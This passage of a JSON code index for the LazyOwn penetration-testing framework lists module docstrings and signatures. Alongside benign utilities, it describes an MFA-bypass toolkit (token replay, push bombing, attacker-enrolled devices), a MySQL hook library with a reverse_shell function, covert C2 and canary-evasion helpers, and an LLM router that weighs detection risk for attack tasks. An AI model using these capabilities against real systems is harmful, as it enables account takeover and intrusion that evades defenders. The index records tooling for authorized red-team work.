durations.\n        The caller is responsible for sorting; this helper does\n        not.\n    percentile: Target percentile in the closed interval\n        ``[0, 1]``.\n\nReturns:\n    The selected duration, or zero when *values* is empty.", "kind": "method", "line": 234, "name": "_percentile", "signature": "def _percentile(values, percentile)"}, {"doc": "Compute aggregate statistics over the supplied records.\n\nArgs:\n    records: Iterable of decoded JSONL entries.\n    window_seconds: If set, ignore records older than this many\n        seconds relative to *now_utc*.\n    now_utc: Reference timestamp for the window. Defaults to the\n        current UTC time. Supplied explicitly in tests.\n\nReturns:\n    A dictionary with keys ``total``, ``window_seconds``,\n    ``by_command`` and ``top_failures``.", "kind": "method", "line": 254, "name": "summarize", "signature": "def summarize(cls, records, window_seconds, now_utc)"}, {"doc": "Initialise the recorder.\n\nArgs:\n    writer: Writer instance to use. Injected in tests; defaults to\n        a writer pointing at :data:`METRICS_FILE`.", "kind": "method", "line": 339, "name": "__init__", "signature": "def __init__(self, writer)"}, {"doc": "Return the JSONL path used by the underlying writer.", "kind": "method", "line": 350, "name": "path", "signature": "def path(self)"}, {"doc": "Persist a single command-execution telemetry record.\n\nArgs:\n    command: First token of the operator-typed command.\n    args: Remaining argument string (may be empty).\n    duration_ms: Wall-clock duration in milliseconds, clamped to a\n        non-negative integer.\n    success: Heuristic success flag.\n    exit_code: Underlying process exit code, when known.\n    source: Coarse origin tag.", "kind": "method", "line": 355, "name": "record", "signature": "def record(self, command, args, duration_ms, success, exit_code, source)"}, {"doc": "Return every record currently present in the JSONL file.\n\nLines that fail to decode are skipped with a debug log entry.\n\nReturns:\n    A list of decoded records, oldest first. Empty when the file\n    does not exist or is unreadable.", "kind": "method", "line": 388, "name": "_read_all", "signature": "def _read_all(self)"}, {"doc": "Return aggregate statistics over recorded events.\n\nArgs:\n    window_seconds: Restrict the calculation to events from the\n        last *N* seconds. ``None`` aggregates the whole file.\n\nReturns:\n    Dictionary as documented in\n    :meth:`MetricsAggregator.summarize`.", "kind": "method", "line": 416, "name": "summarize", "signature": "def summarize(self, window_seconds)"}, {"doc": "Return the most recent *n* records, newest first.\n\nArgs:\n    n: Number of records to return. Clamped to\n        :data:`MAX_TAIL_LINES`.\n\nReturns:\n    A list of records in reverse chronological order.", "kind": "method", "line": 430, "name": "tail", "signature": "def tail(self, n)"}]}, {"doc": "MFA Bypass Toolkit — techniques for circumventing multi-factor authentication.  Provides automated and manual techniques for: - Token theft and replay (session cookies, OAuth tokens, SAML assertions) - MFA fatigue/push bombing automation - Evilginx-style reverse proxy credential + token harvesting - SAML/OAuth golden ticket attacks - MFA enrollment abuse (enrolling attacker-controlled MFA device) - Legacy protocol bypass (IMAP, POP3, SMTP with legacy auth)  Integrates with phishing_orchestrator.py for automated campaigns.", "id": "modules/mfa_bypass.py", "kind": "module", "label": "mfa_bypass.py", "language": "py", "sha256": "736a3203805e1cdc", "symbol_count": 10, "symbols": [{"kind": "class", "line": 103, "name": "MFATarget", "signature": "class MFATarget"}, {"kind": "class", "line": 113, "name": "MFABypassResult", "signature": "class MFABypassResult"}, {"doc": "MFA bypass planning and execution engine.\n\nArgs:\n    sessions_dir: Output directory for captured tokens and evidence.", "kind": "class", "line": 121, "name": "MFABypassEngine", "signature": "class MFABypassEngine"}, {"kind": "method", "line": 128, "name": "__init__", "signature": "def __init__(self, sessions_dir)"}, {"doc": "Enumerate viable MFA bypass techniques for a given target.\n\nArgs:\n    target: MFATarget object with domain and IDP information.\n\nReturns:\n    List of applicable technique dicts sorted by viability.", "kind": "method", "line": 133, "name": "enumerate_techniques", "signature": "def enumerate_techniques(self, target)"}, {"doc": "Generate phishing templates tailored for MFA bypass.\n\nArgs:\n    target: MFATarget with domain and IDP type.\n\nReturns:\n    List of dicts with template_name and html_content keys.", "kind": "method", "line": 153, "name": "generate_phishing_templates", "signature": "def generate_phishing_templates(self, target)"}, {"doc": "Scan for conditional access policy gaps.\n\nReturns commands to enumerate CA policies and identify\napplications excluded from MFA requirements.\n\nArgs:\n    domain: Target domain for Azure AD/Entra enumeration.\n\nReturns:\n    Dict with scan commands and expected output indicators.", "kind": "method", "line": 223, "name": "mfa_conditional_access_scan", "signature": "def mfa_conditional_access_scan(self, domain)"}, {"doc": "Test if an OAuth2 token is still valid and can be replayed.\n\nArgs:\n    access_token: OAuth2 access token.\n    refresh_token: Optional OAuth2 refresh token.\n\nReturns:\n    Dict with validation results.", "kind": "method", "line": 252, "name": "replay_oauth_token", "signature": "def replay_oauth_token(self, access_token, refresh_token)"}, {"doc": "Check for ADFS token signing certificate exposure.\n\nArgs:\n    adfs_server: ADFS server hostname or IP.\n\nReturns:\n    Dict with ADFS reconnaissance commands.", "kind": "method", "line": 278, "name": "saml_golden_ticket_check", "signature": "def saml_golden_ticket_check(self, adfs_server)"}, {"doc": "Export MFA bypass results to a JSON report.\n\nReturns:\n    Path to the report file.", "kind": "method", "line": 303, "name": "export_report", "signature": "def export_report(self)"}]}, {"doc": "cloudflare_tunnel.sh - Download cloudflared and create a tunnel to localhost on a specified port.", "id": "modules/mkcloudflaretunnel.sh", "kind": "module", "label": "mkcloudflaretunnel.sh", "language": "sh", "sha256": "61274323c353e5b0", "symbol_count": 0, "symbols": []}, {"doc": "Unified module registry for LazyOwn — catalog, search, use/run workflow.  Scans ``lazyaddons/`` (YAML), ``plugins/`` (Lua + YAML), ``modules/`` (Python), ``tools/`` (pwntomate), and ``playbooks/`` for all discoverable modules. Every module is indexed with its metadata (name, author, version, category, description, params) for ``show exploits`` / ``search`` / ``info`` / ``use`` / ``run``.", "id": "modules/module_registry.py", "kind": "module", "label": "module_registry.py", "language": "py", "sha256": "2190eccd428f8a7e", "symbol_count": 29, "symbols": [{"kind": "function", "line": 47, "name": "_classify", "signature": "def _classify(category)"}, {"doc": "Classify a Python module by its name and source content.", "kind": "function", "line": 118, "name": "_classify_module_source", "signature": "def _classify_module_source(name, source)"}, {"doc": "Extract the first line of a module's docstring.", "kind": "function", "line": 136, "name": "_extract_docstring_summary", "signature": "def _extract_docstring_summary(source)"}, {"doc": "Metadata for a single discoverable module.\n\nAttributes:\n    name: Short module name (e.g. ``nuclei``).\n    module_type: One of ``exploit``, ``scanner``, ``auxiliary``,\n        ``post``, ``payload``.\n    author: Original author or tool maintainer.\n    version: Tool version string.\n    description: Human-readable summary.\n    category: Kill-chain category label.\n    path: Absolute filesystem path to the module definition.\n    source: Where it was loaded from (``yaml``, ``lua``, ``python``,\n        ``pwntomate``, ``playbook``).\n    params: List of parameter dicts (name, type, required, default,\n        description).\n    enabled: Whether the module is active.\n    deprecated: Whether the module is superseded.\n    replaced_by: Name of the replacement module.\n    deprecation_message: Human-readable migration guidance.", "kind": "class", "line": 150, "name": "ModuleInfo", "signature": "class ModuleInfo"}, {"doc": "Scans and indexes all discoverable modules in the framework.\n\nThe registry is a singleton per process — call\n:func:`ModuleRegistry.get_instance` or just construct one and reuse it.\n\nArgs:\n    base_dir: Root directory of the LazyOwn project.", "kind": "class", "line": 223, "name": "ModuleRegistry", "signature": "class ModuleRegistry"}, {"doc": "Format a list of modules as an aligned text table.\n\nArgs:\n    modules: Module list to format.\n    cols: Column keys to include (in order). Valid keys: ``id``,\n        ``name``, ``type``, ``author``, ``version``, ``description``.\n\nReturns:\n    Multi-line string with aligned columns.", "kind": "function", "line": 542, "name": "format_module_table", "signature": "def format_module_table(modules, cols)"}, {"doc": "Format a single module's full metadata.", "kind": "function", "line": 589, "name": "format_module_detail", "signature": "def format_module_detail(m)"}, {"kind": "method", "line": 172, "name": "__init__", "signature": "def __init__(self, name, module_type, author, version, description, category, path, source, params, enabled, deprecated, replaced_by, deprecation_message)"}, {"kind": "method", "line": 202, "name": "to_dict", "signature": "def to_dict(self)"}, {"kind": "method", "line": 219, "name": "__repr__", "signature": "def __repr__(self)"}, {"kind": "method", "line": 235, "name": "__init__", "signature": "def __init__(self, base_dir)"}, {"doc": "Return the singleton registry instance.", "kind": "method", "line": 241, "name": "get_instance", "signature": "def get_instance(cls, base_dir)"}, {"doc": "Scan all module directories and return the full list.", "kind": "method", "line": 247, "name": "scan", "signature": "def scan(self)"}, {"doc": "Force a full rescan and return modules.", "kind": "method", "line": 260, "name": "rescan", "signature": "def rescan(self)"}, {"doc": "Get a module by name.", "kind": "method", "line": 269, "name": "get", "signature": "def get(self, name)"}, {"doc": "Search indexed modules.\n\nArgs:\n    query: Free-text search in name, description, author.\n    module_type: Filter by type (``exploit``, ``scanner``, ...).\n    category: Filter by kill-chain category.\n    enabled_only: Only return enabled modules.\n    include_deprecated: Include deprecated modules in results.\n\nReturns:\n    List of matching :class:`ModuleInfo`.", "kind": "method", "line": 275, "name": "search", "signature": "def search(self, query, module_type, category, enabled_only, include_deprecated)"}, {"doc": "Return all deprecated modules.", "kind": "method", "line": 315, "name": "deprecated_modules", "signature": "def deprecated_modules(self)"}, {"doc": "Shorthand for ``search(module_type=module_type)``.", "kind": "method", "line": 321, "name": "by_type", "signature": "def by_type(self, module_type)"}, {"doc": "Return counts by module type.", "kind": "method", "line": 325, "name": "summary", "signature": "def summary(self)"}, {"kind": "method", "line": 338, "name": "_scan_yaml_addons", "signature": "def _scan_yaml_addons(self)"}, {"kind": "method", "line": 379, "name": "_scan_plugins", "signature": "def _scan_plugins(self)"}, {"kind": "method", "line": 419, "name": "_scan_tools", "signature": "def _scan_tools(self)"}, {"kind": "method", "line": 453, "name": "_scan_playbooks", "signature": "def _scan_playbooks(self)"}, {"doc": "Scan ``modules/`` for Python files with discoverable entry points.", "kind": "method", "line": 473, "name": "_scan_python_modules", "signature": "def _scan_python_modules(self)"}, {"doc": "Heuristic: a module is discoverable if it defines a runnable entry point.", "kind": "method", "line": 503, "name": "_looks_discoverable", "signature": "def _looks_discoverable(source)"}, {"kind": "method", "line": 517, "name": "_load_yaml", "signature": "def _load_yaml(path)"}, {"kind": "method", "line": 526, "name": "__len__", "signature": "def __len__(self)"}, {"kind": "method", "line": 531, "name": "__iter__", "signature": "def __iter__(self)"}, {"kind": "method", "line": 536, "name": "__contains__", "signature": "def __contains__(self, name)"}]}, {"doc": "modules/moe_router.py ====================== Mixture-of-Experts (MoE) Router for LazyOwn.  Routes penetration-testing tasks to the most capable available LLM expert based on task type, learned performance history, and detection risk.  Architecture ------------ task_type + goal | MoERouter.route() /       |       \\\\ groq_fast  groq_powerful  ollama_reason  ... \\\\       |       / ExpertPerformanceStore (JSON) | SoftmaxSelector (temperature-scaled softmax over RL-adjusted weights)  Design principles ----------------- - Single Responsibility : each class owns one concept - Open/Closed           : new experts added to _DEFAULT_EXPERTS list only - Liskov Substitution   : IExpertSelector defines the routing contract - Interface Segregation : separate read/write interfaces for performance store - Dependency Inversion  : MoERouter depends on IExpertSelector, not on concrete impl", "id": "modules/moe_router.py", "kind": "module", "label": "moe_router.py", "language": "py", "sha256": "ece91ac94151e737", "symbol_count": 39, "symbols": [{"doc": "Static description of a single expert model.", "kind": "class", "line": 83, "name": "ExpertProfile", "signature": "class ExpertProfile"}, {"doc": "Mutable per-(expert_id, task_type) performance record.", "kind": "class", "line": 101, "name": "ExpertPerformance", "signature": "class ExpertPerformance"}, {"doc": "Contract for expert selection strategies.", "kind": "class", "line": 257, "name": "IExpertSelector", "signature": "class IExpertSelector(ABC)"}, {"doc": "Persists per-(expert_id, task_type) performance records to JSON.\n\nThread-safe via RLock.", "kind": "class", "line": 276, "name": "ExpertPerformanceStore", "signature": "class ExpertPerformanceStore"}, {"doc": "Selects an expert using temperature-scaled softmax over adjusted weights.\n\nHigher weight → higher probability. Temperature controls exploration:\n- High temperature (>1.0): near-uniform distribution (more exploration)\n- Low temperature (<1.0): sharpened towards best expert (exploitation)", "kind": "class", "line": 368, "name": "SoftmaxSelector", "signature": "class SoftmaxSelector(IExpertSelector)"}, {"doc": "Numerically stable temperature-scaled softmax.", "kind": "function", "line": 423, "name": "_softmax", "signature": "def _softmax(values, temperature)"}, {"doc": "Checks whether the backend for an expert is reachable.\nResults are cached for _AVAIL_CACHE_TTL_S seconds to avoid hammering APIs.", "kind": "class", "line": 437, "name": "ExpertAvailabilityChecker", "signature": "class ExpertAvailabilityChecker"}, {"doc": "Top-level Mixture-of-Experts router.\n\nMaintains the expert registry, availability cache, and performance store.\nProvides route() for single-expert selection and ensemble() for multi-expert.\n\nDependency Inversion: accepts IExpertSelector so the selection strategy\ncan be swapped (e.g., replace SoftmaxSelector with Q-learning selector).", "kind": "class", "line": 489, "name": "MoERouter", "signature": "class MoERouter"}, {"kind": "function", "line": 665, "name": "_load_groq_key", "signature": "def _load_groq_key()"}, {"doc": "Return (or create) the module-level singleton MoERouter.", "kind": "function", "line": 684, "name": "get_router", "signature": "def get_router(api_key)"}, {"kind": "method", "line": 96, "name": "is_local", "signature": "def is_local(self)"}, {"kind": "method", "line": 115, "name": "update", "signature": "def update(self, reward, detection_prob)"}, {"doc": "Return the selected expert from candidates.", "kind": "method", "line": 261, "name": "select", "signature": "def select(self, candidates, task_type, performance_store, deterministic)"}, {"kind": "method", "line": 283, "name": "__init__", "signature": "def __init__(self, path)"}, {"kind": "method", "line": 293, "name": "_key", "signature": "def _key(expert_id, task_type)"}, {"doc": "Update performance for (expert, task_type) and persist.", "kind": "method", "line": 298, "name": "record", "signature": "def record(self, expert_id, task_type, reward, detection_prob)"}, {"kind": "method", "line": 316, "name": "get", "signature": "def get(self, expert_id, task_type)"}, {"kind": "method", "line": 321, "name": "all_for_task", "signature": "def all_for_task(self, task_type)"}, {"doc": "Return a bonus scalar in [-0.3, +0.5] based on EMA reward history.\nPositive for above-average performance, negative for below-average.", "kind": "method", "line": 325, "name": "performance_bonus", "signature": "def performance_bonus(self, expert_id, task_type)"}, {"kind": "method", "line": 341, "name": "_save", "signature": "def _save(self)"}, {"kind": "method", "line": 350, "name": "_load", "signature": "def _load(self)"}, {"kind": "method", "line": 377, "name": "__init__", "signature": "def __init__(self, temperature)"}, {"kind": "method", "line": 381, "name": "temperature", "signature": "def temperature(self)"}, {"kind": "method", "line": 385, "name": "temperature", "signature": "def temperature(self, value)"}, {"kind": "method", "line": 388, "name": "select", "signature": "def select(self, candidates, task_type, performance_store, deterministic)"}, {"kind": "method", "line": 410, "name": "_compute_weights", "signature": "def _compute_weights(candidates, task_type, store)"}, {"kind": "method", "line": 443, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 447, "name": "is_available", "signature": "def is_available(self, expert, api_key)"}, {"kind": "method", "line": 458, "name": "_check", "signature": "def _check(expert, api_key)"}, {"kind": "method", "line": 500, "name": "__init__", "signature": "def __init__(self, experts, selector, performance_store, api_key)"}, {"doc": "Return the single best expert for the given task_type.\n\nParameters\n----------\ntask_type:    Action category (recon/exploit/credential/lateral/…)\ngoal:         The task description (used for future prompt-aware routing)\ndeterministic: When True, return argmax instead of sampling.", "kind": "method", "line": 515, "name": "route", "signature": "def route(self, task_type, goal, deterministic)"}, {"doc": "Return up to *n* distinct experts for ensemble execution.\nExperts are sorted by adjusted weight (best first).", "kind": "method", "line": 547, "name": "ensemble", "signature": "def ensemble(self, task_type, goal, n)"}, {"doc": "Record the outcome of an expert execution.\nUpdates the performance store and adjusts the selector temperature.", "kind": "method", "line": 575, "name": "record_outcome", "signature": "def record_outcome(self, expert_id, task_type, reward, detection_prob)"}, {"doc": "Return (expert, adjusted_weight) sorted descending for diagnostics.", "kind": "method", "line": 589, "name": "top_experts_for_task", "signature": "def top_experts_for_task(self, task_type, top_k)"}, {"doc": "Return expert by ID, or None.", "kind": "method", "line": 605, "name": "get_expert", "signature": "def get_expert(self, expert_id)"}, {"doc": "Return a diagnostic snapshot of all experts and their weights.", "kind": "method", "line": 609, "name": "status_report", "signature": "def status_report(self)"}, {"kind": "method", "line": 640, "name": "_available_for_task", "signature": "def _available_for_task(self, task_type)"}, {"doc": "Gradually lower the softmax temperature as more data accumulates.\nMore data → more confident routing → lower temperature (exploitation).\nMinimum temperature is capped at 0.5 to preserve some exploration.", "kind": "method", "line": 645, "name": "_anneal_temperature", "signature": "def _anneal_temperature(self)"}, {"kind": "function", "line": 562, "name": "adjusted_weight", "signature": "def adjusted_weight(ep)"}]}, {"doc": "Morse code conversion service with interactive driver.  Contract: Single self-contained module providing text to Morse code conversion, Morse code to text conversion, and an interactive selection driver. No placeholders, no simplifications, production grade input handling.", "id": "modules/morse.py", "kind": "module", "label": "morse.py", "language": "py", "sha256": "e32b6919bf45d1ec", "symbol_count": 7, "symbols": [{"doc": "Centralized configuration for the Morse module.", "kind": "class", "line": 16, "name": "MorseConfig", "signature": "class MorseConfig"}, {"doc": "Build the reverse lookup table from Morse code to characters.\n\nReturns:\n    Mapping of Morse code sequences to uppercase characters.", "kind": "function", "line": 98, "name": "reverse_morse_code", "signature": "def reverse_morse_code()"}, {"doc": "Convert plain text to Morse code.\n\nArgs:\n    text: Source text to encode.\n    config: Module configuration.\n\nReturns:\n    Morse code representation with word and letter separators.", "kind": "function", "line": 109, "name": "text_to_morse", "signature": "def text_to_morse(text, config)"}, {"doc": "Convert Morse code back to plain text.\n\nArgs:\n    morse_code: Morse code string using configured separators.\n    config: Module configuration.\n\nReturns:\n    Decoded uppercase text.", "kind": "function", "line": 130, "name": "morse_to_text", "signature": "def morse_to_text(morse_code, config)"}, {"doc": "Reset the terminal screen using a bounded subprocess call.\n\nArgs:\n    config: Module configuration.", "kind": "function", "line": 157, "name": "clear_screen", "signature": "def clear_screen(config)"}, {"doc": "Read and validate the menu choice from standard input.\n\nArgs:\n    config: Module configuration.\n\nReturns:\n    Valid menu choice, or None when input is not a number.", "kind": "function", "line": 171, "name": "read_choice", "signature": "def read_choice(config)"}, {"doc": "Run the interactive Morse code conversion loop.\n\nArgs:\n    config: Module configuration.\n\nRaises:\n    EOFError: Propagated when standard input closes.", "kind": "function", "line": 186, "name": "run_driver", "signature": "def run_driver(config)"}]}, {"id": "modules/mysql_hookandroot_lib.c", "kind": "module", "label": "mysql_hookandroot_lib.c", "language": "c", "sha256": "b513406811f5aee6", "symbol_count": 6, "symbols": [{"doc": "fork & send a bash shell to the attacker before starting mysqld", "kind": "function", "line": 74, "name": "reverse_shell", "signature": "void reverse_shell(void)"}, {"doc": "execvp() hook", "kind": "function", "line": 128, "name": "execvp", "signature": "int execvp(const char* filename, char* const argv[])"}, {"kind": "macro", "line": 50, "name": "_GNU_SOURCE", "signature": "#define _GNU_SOURCE"}, {"kind": "macro", "line": 64, "name": "ATTACKERS_IP", "signature": "#define ATTACKERS_IP"}, {"kind": "macro", "line": 65, "name": "SHELL_PORT", "signature": "#define SHELL_PORT"}, {"kind": "macro", "line": 66, "name": "INJECTED_CONF", "signature": "#define INJECTED_CONF"}]}, {"doc": "Network OPSEC — proxy chain enforcement, canary detection, traffic randomization.  Provides network-level operational security: SOCKS5 → HTTP → SSH tunnel proxy chain management, canary token detection (verify if traffic is being analyzed), source port randomization, connection jitter scheduling, and DNS-over-HTTPS resolution to avoid DNS logging.  All configurations derive from payload.json with sensible defaults for covert C2 communication.", "id": "modules/network_opsec.py", "kind": "module", "label": "network_opsec.py", "language": "py", "sha256": "c7b7de72a15535c1", "symbol_count": 12, "symbols": [{"doc": "Configuration for network OPSEC measures.\n\nAttributes:\n    proxy_chain: Ordered list of proxy URIs (e.g. ['socks5://127.0.0.1:1080', 'http://proxy:8080']).\n    dns_over_https: Use DoH for DNS resolution (avoids DNS logging).\n    doh_provider: DoH resolver URL.\n    source_port_range: Random source port range (min, max).\n    connection_jitter_ms: Random delay before establishing connections.\n    canary_domains: Domains to check for canary tokens in DNS.\n    canary_urls: URLs to check for web bug canaries.\n    sni_randomization: Randomize TLS SNI field.\n    tls_version_override: Force a specific TLS version.\n    tcp_fast_open: Use TCP fast open to reduce handshake signatures.\n    proxy_bypass_local: Don't route local traffic through proxies.", "kind": "class", "line": 23, "name": "NetworkOpsecConfig", "signature": "class NetworkOpsecConfig"}, {"doc": "Manage network-level operational security for C2 and exfiltration.\n\nConfigures proxy chains, enforces DNS-over-HTTPS, randomizes\nconnection parameters, and detects canary/deception tokens.\n\nAttributes:\n    config: NetworkOpsecConfig with proxy and randomization settings.\n    active_proxies: Currently verified proxy connections.", "kind": "class", "line": 53, "name": "NetworkOpsecEngine", "signature": "class NetworkOpsecEngine"}, {"kind": "method", "line": 83, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Configure a proxy chain for C2 communication.\n\nArgs:\n    chain_type: Preset chain configuration name.\n\nReturns:\n    Dict with chain configuration and environment setup.", "kind": "method", "line": 87, "name": "configure_proxy_chain", "signature": "def configure_proxy_chain(self, chain_type)"}, {"kind": "method", "line": 119, "name": "_build_proxychains_config", "signature": "def _build_proxychains_config(proxies)"}, {"doc": "Check if the target has canary token / deception technology.\n\nAnalyzes DNS names, HTTP response headers, and behavioral\nindicators for signs of canary tokens or honeypot deployment.\n\nReturns:\n    Dict with detection results and risk assessment.", "kind": "method", "line": 131, "name": "check_canary_tokens", "signature": "def check_canary_tokens(self)"}, {"doc": "Analyze whether target traffic is being intercepted or analyzed.\n\nUses TLS fingerprint analysis, response header inspection, and\ntiming analysis to detect TLS inspection proxies or packet capture.\n\nArgs:\n    target_host: Target hostname or IP.\n    target_port: Target port.\n\nReturns:\n    Dict with traffic analysis results.", "kind": "method", "line": 179, "name": "analyze_traffic_with_canary_check", "signature": "def analyze_traffic_with_canary_check(self, target_host, target_port)"}, {"doc": "Generate DNS-over-HTTPS configuration for proxy and system.\n\nReturns:\n    Dict with DoH configuration commands for curl, python, and system.", "kind": "method", "line": 246, "name": "dns_over_https_config", "signature": "def dns_over_https_config(self)"}, {"doc": "Randomize source port for outbound connections.\n\nReturns:\n    Dict with port randomization commands for iptables, python sockets, etc.", "kind": "method", "line": 269, "name": "source_port_randomize", "signature": "def source_port_randomize(self)"}, {"doc": "Generate a jitter schedule for beacon connections.\n\nReturns a list of sleep durations that appear irregular but stay\nwithin the requested jitter window. This prevents pattern-based\ndetection in netflow/SIEM correlation.\n\nArgs:\n    beacon_interval: Base sleep interval in seconds.\n\nReturns:\n    List of jittered sleep durations.", "kind": "method", "line": 294, "name": "connection_jitter_schedule", "signature": "def connection_jitter_schedule(self, beacon_interval)"}, {"doc": "Set up canary detection for the engagement.\n\nGenerates canary tokens at configurable intervals to detect\nif stolen data or credentials are being actively monitored.\n\nReturns:\n    Dict with canary setup commands and monitoring instructions.", "kind": "method", "line": 317, "name": "canary_detection_setup", "signature": "def canary_detection_setup(self)"}, {"kind": "method", "line": 349, "name": "summary", "signature": "def summary(self)"}]}, {"doc": "This file is part of nmaptocsv.  Copyright (C) 2012, 2019 Thomas Debize <tdebize at mail.com> All rights reserved.  nmaptocsv is free software: you can redistribute it and/or modify it under the terms of the GNU Lesser General Public License as published by the Free Software Foundation, either version 3 of the License, or (at your option) any later version.  nmaptocsv is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the GNU Lesser General Public License for more details.  You should have received a copy of the GNU Lesser General Public License along with nmaptocsv.  If not, see <http://www.gnu.org/licenses/>.   Global imports", "id": "modules/nmap2csv.py", "kind": "module", "label": "nmap2csv.py", "language": "py", "sha256": "7b692610a9250886", "symbol_count": 44, "symbols": [{"doc": "Convert decimal dotted quad string IP to long integer", "kind": "function", "line": 126, "name": "dottedquad_to_num", "signature": "def dottedquad_to_num(ip)"}, {"doc": "Convert long int IP to dotted quad string", "kind": "function", "line": 133, "name": "num_to_dottedquad", "signature": "def num_to_dottedquad(n)"}, {"doc": "Check the list for a potential pattern match\n\n@param list : a list of potential matching groups\n\n@rtype : return the string representation of the unique value that matched, or nothing if nothing matched", "kind": "function", "line": 140, "name": "unique_match_from_list", "signature": "def unique_match_from_list(list)"}, {"doc": "Return the desired group_name from a list of matching patterns\n\n@param regex : a regular expression with named groups\n@param group_name : the desired matching group name value\n@param unfiltered_list : a list of matches\n\n@rtype : the string value", "kind": "function", "line": 156, "name": "extract_matching_pattern", "signature": "def extract_matching_pattern(regex, group_name, unfiltered_list)"}, {"kind": "class", "line": 176, "name": "Host", "signature": "class Host"}, {"kind": "class", "line": 282, "name": "Port", "signature": "class Port"}, {"doc": "Split the raw line to a neat Host object\n\n@param raw_string : the whole 'Host' line\n\n@rtype : return an Host object", "kind": "function", "line": 315, "name": "split_grepable_match", "signature": "def split_grepable_match(raw_string)"}, {"doc": "Parse the data according to several regexes\n\n@param fd : input file descriptor, could be a true file or stdin\n\n@rtype : return a list of <Host> objects indexed from their numerical IP representation", "kind": "function", "line": 362, "name": "parse", "signature": "def parse(fd)"}, {"doc": "Parse the XML file\n\n@param xml_file : the input file\n\n@rtype : return a list of <Host> objects indexed from their numerical IP representation", "kind": "function", "line": 492, "name": "parse_xml", "signature": "def parse_xml(xml_file)"}, {"doc": "Check for the supplied custom output format\n\n@param fmt : the supplied format\n\n@rtype : True or False", "kind": "function", "line": 572, "name": "is_format_valid", "signature": "def is_format_valid(fmt)"}, {"doc": "return the attribute value related to the host\n\n@param host : host object\n@param format_item : the attribute supplied in the custom format\n\n@rtype : the <list> attribute value", "kind": "function", "line": 606, "name": "formatted_item", "signature": "def formatted_item(host, format_item)"}, {"doc": "repeat attribute lists to the maximum for the\n\n@param attribute_list : raw list with different attribute list length\n\n@rtype : a list consisting of length equal attribute list", "kind": "function", "line": 639, "name": "repeat_attributes", "signature": "def repeat_attributes(attribute_list)"}, {"doc": "Generate a plain ';' separated csv file with the desired or default attribute format\n\n@param fd : output file descriptor, could be a true file or stdout", "kind": "function", "line": 653, "name": "generate_csv", "signature": "def generate_csv(fd, results, options)"}, {"kind": "function", "line": 688, "name": "main", "signature": "def main()"}, {"kind": "method", "line": 177, "name": "__init__", "signature": "def __init__(self, ip, fqdn)"}, {"kind": "method", "line": 188, "name": "add_port", "signature": "def add_port(self, port)"}, {"kind": "method", "line": 192, "name": "get_ip_num_format", "signature": "def get_ip_num_format(self)"}, {"kind": "method", "line": 195, "name": "get_ip_dotted_format", "signature": "def get_ip_dotted_format(self)"}, {"kind": "method", "line": 198, "name": "get_fqdn", "signature": "def get_fqdn(self)"}, {"kind": "method", "line": 201, "name": "get_rdns_record", "signature": "def get_rdns_record(self)"}, {"kind": "method", "line": 204, "name": "get_port_list", "signature": "def get_port_list(self)"}, {"kind": "method", "line": 207, "name": "get_port_number_list", "signature": "def get_port_number_list(self)"}, {"kind": "method", "line": 216, "name": "get_port_protocol_list", "signature": "def get_port_protocol_list(self)"}, {"kind": "method", "line": 225, "name": "get_port_service_list", "signature": "def get_port_service_list(self)"}, {"kind": "method", "line": 234, "name": "get_port_version_list", "signature": "def get_port_version_list(self)"}, {"kind": "method", "line": 243, "name": "get_port_script_list", "signature": "def get_port_script_list(self)"}, {"kind": "method", "line": 252, "name": "get_os", "signature": "def get_os(self)"}, {"kind": "method", "line": 255, "name": "get_mac_address", "signature": "def get_mac_address(self)"}, {"kind": "method", "line": 258, "name": "get_mac_address_vendor", "signature": "def get_mac_address_vendor(self)"}, {"kind": "method", "line": 261, "name": "get_network_distance", "signature": "def get_network_distance(self)"}, {"kind": "method", "line": 265, "name": "set_fqdn", "signature": "def set_fqdn(self, fqdn)"}, {"kind": "method", "line": 268, "name": "set_rdns_record", "signature": "def set_rdns_record(self, rdns_record)"}, {"kind": "method", "line": 271, "name": "set_os", "signature": "def set_os(self, os)"}, {"kind": "method", "line": 274, "name": "set_mac", "signature": "def set_mac(self, mac_address, mac_address_vendor)"}, {"kind": "method", "line": 278, "name": "set_network_distance", "signature": "def set_network_distance(self, network_distance)"}, {"kind": "method", "line": 283, "name": "__init__", "signature": "def __init__(self, number, protocol, service, version, script)"}, {"kind": "method", "line": 290, "name": "get_number", "signature": "def get_number(self)"}, {"kind": "method", "line": 293, "name": "get_protocol", "signature": "def get_protocol(self)"}, {"kind": "method", "line": 296, "name": "get_service", "signature": "def get_service(self)"}, {"kind": "method", "line": 299, "name": "get_version", "signature": "def get_version(self)"}, {"kind": "method", "line": 302, "name": "get_script", "signature": "def get_script(self)"}, {"kind": "method", "line": 305, "name": "set_service", "signature": "def set_service(self, service)"}, {"kind": "method", "line": 308, "name": "set_version", "signature": "def set_version(self, version)"}, {"kind": "method", "line": 311, "name": "set_script", "signature": "def set_script(self, script)"}]}, {"doc": "Stateless multi-channel notifier for finding events.  Ports the LAZY notify contract. Channels stay stateless so one instance serves many configurations concurrently. Severity filters drop noise and secret patterns are masked before dispatch.", "id": "modules/notify.py", "kind": "module", "label": "notify.py", "language": "py", "sha256": "e1a5876f5d0c397f", "symbol_count": 17, "symbols": [{"doc": "Centralized constants for notification behavior (LAZY parity).", "kind": "class", "line": 15, "name": "NotifyConfig", "signature": "class NotifyConfig"}, {"doc": "Return the comparable order for a severity label.", "kind": "function", "line": 31, "name": "severity_rank", "signature": "def severity_rank(severity, config)"}, {"doc": "Replace known secret prefixes with a redaction marker.", "kind": "function", "line": 39, "name": "mask_secrets", "signature": "def mask_secrets(text, config)"}, {"doc": "SSRF dial-guard for webhook delivery (LAZY parity).\n\nDenies cloud metadata hosts/IPs always, denies loopback/link-local/\nprivate/unspecified/multicast/reserved unless\n``LAZY_NOTIFY_ALLOW_LOCAL=1``, denies userinfo credentials in the URL,\nand resolves DNS names to catch metadata-address aliases. Redirects\nmust be re-checked by the caller with this same function.\n\nReturns (allowed, reason).", "kind": "function", "line": 57, "name": "url_allowed", "signature": "def url_allowed(url)"}, {"doc": "POST data to a webhook URL after SSRF validation, guarding redirects.\n\nEach redirect target is re-validated with :func:`url_allowed`; a\ndenied redirect aborts without following it. Raises ValueError on a\ndenied URL and OSError on transport failure.", "kind": "function", "line": 145, "name": "post_url_validated", "signature": "def post_url_validated(url, data, timeout)"}, {"doc": "Event payload awaiting channel fan-out.", "kind": "class", "line": 173, 